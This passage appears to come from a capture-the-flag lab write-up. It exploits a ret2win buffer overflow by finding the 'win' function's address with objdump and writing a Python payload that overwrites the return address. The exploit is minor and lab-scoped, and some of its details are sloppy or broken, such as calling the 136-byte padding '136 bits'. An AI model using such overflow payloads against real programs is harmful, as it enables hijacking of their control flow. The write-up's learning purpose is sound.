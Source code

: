 ### objdump - `win` function's memory address

```bash
objdump -d ./ret | less
/win # 'find' function for 'less'
```

![472a350e40f5c330312c0b0aa17c5326.png](./_resources/472a350e40f5c330312c0b0aa17c5326.png)

Now we can write a quick exploit to replace the return address to `00400646`  
Here is the exploit that I came up with

```python
import sys
import codecs

# The memory address of the function that we want to execute = 00400646 in hexadecimal
# [::-1] reverses the address (little-endian)
win_function_mem_address = b"\x00\x40\x06\x46"[::-1]

# 136 bits causes segmentation fault
payload = b"A" * 136

# Add the target function's memory address to the payload
payload += win_function_mem_address

# Use sys to make sure python properly outputs byte-strings
ascii_stdout = codecs.getreader("ascii")(sys.stdout, errors="strict")

ascii_stdout.write(payload)
```

- After trying this exploit locally it wasn't really working
- So I decided to just get it onto the target machine and try it there
- That's when I was reminded that python3 is not installed in the container
- Initially I wrote this exploit with python3 in mind which you can simply use the following to output the payload in the write format:

```python3
sys.stdout.buffer.write(payload)
```
